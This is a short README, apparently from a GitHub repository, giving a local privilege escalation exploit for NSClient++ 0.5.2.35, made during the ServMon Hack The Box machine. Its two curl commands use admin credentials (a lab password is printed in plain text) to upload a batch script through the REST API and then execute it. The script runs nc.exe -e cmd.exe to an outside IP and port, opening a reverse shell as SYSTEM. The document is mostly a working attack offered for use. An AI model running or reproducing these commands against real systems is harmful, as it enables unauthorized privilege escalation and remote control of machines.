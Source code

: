 # NSClient-0.5.2.35---Privilege-Escalation
Easy LPE without interacting with the console UI. 

#### **This can be written in any scripting language of your choice, the logic stays the same**

I made this while doing the ServMon HTB Box due to the fact I met an unstable UI or restricted to only 127.0.0.1. 

## Requirements:
 - Bring nc.exe on target host.
 - Have admin credentials.

## PoC:
 1. Create your payload and PUT it via API call: `curl -k -i -u admin:ew2x6SsGTxjRwXOT -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/exploit2.bat -d "C:\Users\Nadine\nc.exe -e cmd.exe 10.10.16.24 9999"`;
 2. Set-up a listener;
 3. Execute the payload via API call: `curl -k -u admin:ew2x6SsGTxjRwXOT https://127.0.0.1:8443/api/v1/queries/exploit2/commands/execute?time=1m/`;



References used:
 - https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation/tree/master
 - https://nsclient.org/docs/api/rest/
